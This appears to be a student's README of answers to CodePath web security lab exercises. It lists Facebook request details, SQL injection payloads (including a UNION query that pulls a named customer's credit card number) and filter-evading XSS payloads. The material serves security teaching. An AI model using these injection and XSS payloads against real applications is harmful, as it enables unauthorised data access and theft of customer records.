 # Web-Securities-Labs
codepath Web Securities labs

## Week 1
Insecure Direct Object Reference:
1) Go to https://facebook.com. What is the Cache-Control header set to in the response? Enter as a comma-delimited list below. Order doesn't matter, and values are case insensitive. 
``` private, no-cache, no-store, must-revalidate ```

2) What is the URI for liking a Facebook post on your homepage? Hint: https://www.quora.com/What-does-Facebook-refer-to-as-UFI
``` /ufi/reaction/?dpr=1 ```

3) When posting your status to Facebook, which query parameter contains the text of your message? Hint: Make sure you're not filtering out URIs like: ajax/updatestatus 
``` xhpc_message_text ```

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
``` SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
``` SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com ```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- "; ```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
``` SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; # ```

## Week 3
Cross Site Scripting One

1) Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONERROR="alert('XSS')"/>```

2)  Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONMESSAGE="alert('XSS')"/>```

3) In this one, the developer is completely removing the handler name. 
``` <SCRonmessageIPT>alert('XSS')</SCRonmessageIPT> ```

4) Demonstrate a XSS vulnerability in the following form by executing a JavaScript alert command. The developers had heard that escaping is a better way of fixing XSS issues but they were not totally clear on how to implement it.

Please enter the URL that you wish to post to your public profile;
``` http://www.google.com" oNmessage=alert()> ```
